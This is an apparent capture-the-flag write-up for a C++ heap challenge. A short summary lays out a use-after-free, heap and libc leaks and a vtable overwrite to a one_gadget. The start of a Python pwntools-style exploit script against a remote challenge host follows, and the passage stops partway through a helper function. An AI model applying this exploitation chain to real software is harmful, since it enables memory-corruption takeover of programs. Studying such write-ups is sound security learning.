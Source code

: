 ## TLDR

- `free` a `unique_ptr<Food>` by overwriting an already existing `foods[idx]`
- saving a `Food*` pointer in `favorite` allows for a UAF;
- `->bk` can be used to leak the heap
- Modify the contents of `favorite` by heap-feng-shui-ing an 0x30 heap chunk onto the backing store for `string name`
- Use modified `favorite`s to leak PIE from heap, and libc from PIE
- modify `favorite`'s vtable to jump to `one_gadget`

## Code

note: your libc-database might contain ` libc6_2.27-3ubuntu1.3_amd64`; I removed it because the package for that libc version [appears to be deleted](archive.ubuntu.com/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1.3_amd64.deb).

It's also worth noting that this code should succeed both locally _and_ on remote. 

```python
from pwnscripts import *
from string import whitespace
from random import randint
context.binary = 'chall'
if args.LOCAL:
    context.libc = 'libc6_2.27-3ubuntu1.4_amd64'
    r = context.binary.process()
else: r = remote('mc.ax', 31707)

optc = 0
def flush(): # speed up i/o by deferring recvs until necessary
    global optc
    while optc:
        r.recvuntil('choice: \n')
        optc -= 1
def choose(opt: int):
    global optc
    r.sendline(str(opt)) # io speed: r.sendlineafter('choice: \n', str(opt))
    optc+=1

def sendidx(idx: int): r.sendline(str(idx)) # io speed: r.sendlineafter('idx: \n', str(idx))
def alloc(idx: int, name: bytes):
    assert all(c not in whitespace.encode() for c in name) # whitespace will cause cin to terminate. This necessarily means that some ASLR bytes can kill an exploit.
    assert len(name) < 0x1000
    choose(0)
    sendidx(idx)
    r.sendline(name) # io speed: r.sendlineafter('name: \n', name)
def fav(idx: int):
    choose(1)
    sendidx(idx)
def printName() -> bytes:
    choose(2)
    flush()
    r.recvuntil('name: ')
    return r.recvline(timeout=1)[:-1]
def Eat(): choose(3)

def checkWhich(idx: int) -> str:
    '''figure out if foods[idx] was a Bamboo or a Food.
    Destroys the current `favorite`.'''
    fav(idx)
    Eat()
    flush()
    res = r.recvline()
```